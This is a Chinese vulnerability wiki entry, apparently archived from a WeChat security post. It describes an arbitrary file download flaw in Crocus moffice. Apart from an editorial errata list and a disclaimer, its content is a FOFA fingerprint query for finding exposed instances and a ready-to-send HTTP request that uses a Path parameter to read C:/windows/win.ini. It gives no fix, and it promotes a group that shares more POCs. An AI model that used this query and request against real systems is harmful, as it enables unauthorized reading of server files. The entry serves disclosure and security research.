




# 未公开漏洞 Crocus 任意文件下载漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Crocus moffice
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：正文只有Crocus无版本；请求带JSESSIONID需区分已登录和未认证；任意下载受服务文件权限限制
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. FOFA字段误抓搜索语句标题
2. 正文只有Crocus无版本
3. 请求带JSESSIONID需区分已登录和未认证
4. 任意下载受服务文件权限限制
5. 未公开为历史标题非当前状态
6. 缺修复和响应文字，清广告

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/odKa_ruxUqgl-1Nq7SzKYA>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/odKa_ruxUqgl-1Nq7SzKYA)

**PART.****0****1**

**免责声明**

道一安全（本公众号）的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！

**PART.****0****2**

**漏洞描述**

Crocus 科技软件 - moffice - 任意文件下载漏洞

**PART.****0****3**

**fofa 搜索语句**

body="inp_verification" 或 icon_hash="1819219374"



**PART.****0****4**

**影响版本**

Crocus 
=======

**PART.****0****5**

**漏洞复现**


POC：

```
GET /Service.do?Action=Download&Path=C:/windows/win.ini HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=07F19D6F7EDC273FDD7B2DBF5F9EB561
Connection: close

```




群内不定期更新各种 POC





---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
